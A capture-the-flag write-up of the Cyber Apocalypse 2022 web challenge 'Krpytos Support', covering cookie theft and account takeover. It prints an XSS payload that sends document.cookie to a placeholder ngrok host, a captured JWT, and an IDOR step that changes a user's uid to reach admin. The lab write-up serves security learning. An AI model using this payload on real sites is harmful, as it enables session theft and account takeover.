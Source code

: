 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Krpytos Support Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: web
challenge: Krpytos Support
tags: "web, twh, api, idor"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Krpytos Support
> Solved By : thewhiteh4t

In this one we land on a support page where we can send a POST request, it also contains a backend button which takes us to a login page…

first I thought its a cookie stealing challenge so I send the following payload : 

```html
<img src=x onerror=this.src='<NGROK-LINK-HERE>/?'+document.cookie;>
```

and I got a JWT : 

```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI
```

decoded :

```
{
  "username": "moderator",
  "uid": 100,
  "iat": 1652534885
}
```

and I got two interesting things here, now the cookie did not work for login for some reason so I went back to enum and found an API endpoint :

```
/api/users/update
```

using XHR I sent the following request to change the password :

![](https://i.imgur.com/mVy9Zs9.png)

logged in with the new password :

![](https://i.imgur.com/lkqwQPZ.png)

but moderator doesn’t have the flag so I had to escalate to admin…

using the same payload above I just changed the `uid` from 100 to 1 and logged in again, I could have got it one go but well… 

![](https://i.imgur.com/JI1lO3O.png)

